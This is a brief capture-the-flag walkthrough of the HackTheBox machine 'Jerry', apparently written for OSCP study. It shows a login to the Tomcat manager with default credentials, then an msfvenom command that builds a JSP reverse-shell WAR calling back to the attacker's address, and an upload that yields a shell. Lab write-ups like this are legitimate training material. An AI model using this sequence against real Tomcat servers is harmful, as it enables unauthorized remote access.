

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Jerry/index.html · generator: mkdocs

# Jerry

10.10.10.95

port 8080 is running apache tomcat 7.0.88

Dirbuster found `/manager` and we were able to login with `tomcat:s3cret`

Hunterbot told me about war files.

We generate a war file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f war -o shell.war
```

then upload it

when we visit `/shell` we get a connection on our listener

Then we found the flags were both in one file:

![[Pasted image 20220715212426.png]]
